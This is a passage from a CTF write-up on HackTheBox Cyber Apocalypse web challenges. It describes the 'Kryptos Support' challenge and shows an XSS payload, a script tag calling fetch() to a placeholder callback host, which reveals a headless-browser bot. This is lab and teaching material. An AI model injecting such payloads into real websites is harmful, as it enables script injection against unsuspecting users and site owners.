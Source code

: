 ```yaml
---
title: HTB Cyber Apocalypse - [All Web]
tags:
  - CTF
  - Write-up
  - client-side
  - cache-deception
  - zip-slip
  - hackthebox
  - cyber-apocalypse
  - web-exploitation
---
```

![](banner-cyber-apocalypse%201.png)
## Prologue

CTF Hackthebox Cyber Apocalypse is an international competition held every year by Hack The Box. This CTF Competition is using Jeopardy-style, which means every teams must find a flag in the given challenge. This competition lasts for six days.

## Write Up

### Kryptos Support (300 pts)

The value of this challenge is 300 points and +1000 players have solved this challenge.

![](kryptos-1.png)

We're given a website with an interface like this.

![](kryptos-2.png)

After doing an enumeration, we only found an input and button. When submitting the form, We have a unique response that could make use of this as a hint. We assume this is a generic _Client-Side Challenge_

![](kryptos-3.png)

To prove our assumption, We sent a Cross-Site Scripting payload.

```html
<script> 
fetch('ip_callback') 
</script>
```
After waiting for a few seconds, We obtained a callback from an unknown IP address with HeadlessChrome as the User-Agent. That means our assumption is correct.

![](kryptos-5.png)
